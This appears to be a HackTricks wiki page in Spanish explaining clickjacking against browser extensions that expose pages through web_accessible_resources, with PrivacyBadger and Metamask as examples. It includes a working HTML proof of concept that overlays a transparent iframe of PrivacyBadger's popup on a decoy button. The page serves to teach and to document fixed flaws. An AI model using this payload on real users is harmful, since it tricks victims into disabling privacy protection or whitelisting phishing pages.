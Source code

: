 # BrowExt - ClickJacking

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Información Básica

Esta página va a abusar de una vulnerabilidad de ClickJacking en una extensión del navegador.\
Si no sabes qué es ClickJacking, consulta:

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

Las extensiones contienen el archivo **`manifest.json`** y ese archivo JSON tiene un campo `web_accessible_resources`. Esto es lo que dicen [los documentos de Chrome](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources):

> Estos recursos estarían disponibles en una página web a través de la URL **`chrome-extension://[PACKAGE ID]/[PATH]`**, que se puede generar con el **`extension.getURL method`**. Los recursos permitidos se sirven con los encabezados CORS apropiados, por lo que están disponibles a través de mecanismos como XHR.[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

Los **`web_accessible_resources`** en una extensión del navegador no solo son accesibles a través de la web; también operan con los privilegios inherentes de la extensión. Esto significa que tienen la capacidad de:

* Cambiar el estado de la extensión
* Cargar recursos adicionales
* Interactuar con el navegador hasta cierto punto

Sin embargo, esta característica presenta un riesgo de seguridad. Si un recurso dentro de **`web_accessible_resources`** tiene alguna funcionalidad significativa, un atacante podría potencialmente incrustar este recurso en una página web externa. Los usuarios desprevenidos que visiten esta página podrían activar inadvertidamente este recurso incrustado. Tal activación podría llevar a consecuencias no deseadas, dependiendo de los permisos y capacidades de los recursos de la extensión.

## Ejemplo de PrivacyBadger

En la extensión PrivacyBadger, se identificó una vulnerabilidad relacionada con el directorio `skin/` declarado como `web_accessible_resources` de la siguiente manera (Consulta el [post original del blog](https://blog.lizzie.io/clickjacking-privacy-badger.html)):
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
Esta configuración llevó a un posible problema de seguridad. Específicamente, el archivo `skin/popup.html`, que se renderiza al interactuar con el ícono de PrivacyBadger en el navegador, podría ser incrustado dentro de un `iframe`. Esta incrustación podría ser explotada para engañar a los usuarios y hacer que hagan clic inadvertidamente en "Desactivar PrivacyBadger para este sitio web". Tal acción comprometería la privacidad del usuario al desactivar la protección de PrivacyBadger y potencialmente someter al usuario a un mayor seguimiento. Una demostración visual de esta explotación se puede ver en un ejemplo de video de ClickJacking proporcionado en [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm).

Para abordar esta vulnerabilidad, se implementó una solución sencilla: la eliminación de `/skin/*` de la lista de `web_accessible_resources`. Este cambio mitigó efectivamente el riesgo al asegurar que el contenido del directorio `skin/` no pudiera ser accedido o manipulado a través de recursos accesibles por la web.

La solución fue fácil: **eliminar `/skin/*` de los `web_accessible_resources`**.

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}

</style>

<div id="stuff">
<h1>
Click the button
</h1>
<button id="button">
click me
</button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Ejemplo de Metamask

Una [**entrada de blog sobre un ClickJacking en metamask se puede encontrar aquí**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). En este caso, Metamask solucionó la vulnerabilidad verificando que el protocolo utilizado para acceder a él era **`https:`** o **`http:`** (no **`chrome:`** por ejemplo):

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

**Otro ClickJacking solucionado** en la extensión de Metamask fue que los usuarios podían **Click para agregar a la lista blanca** cuando una página era sospechosa de ser phishing debido a `“web_accessible_resources”: [“inpage.js”, “phishing.html”]`. Como esa página era vulnerable a Clickjacking, un atacante podría abusar de ella mostrando algo normal para hacer que la víctima hiciera clic para agregarla a la lista blanca sin darse cuenta, y luego volver a la página de phishing que será agregada a la lista blanca.

## Ejemplo de Steam Inventory Helper

Consulta la siguiente página para ver cómo un **XSS** en una extensión de navegador se encadenó con una vulnerabilidad de **ClickJacking**:

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## Referencias

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
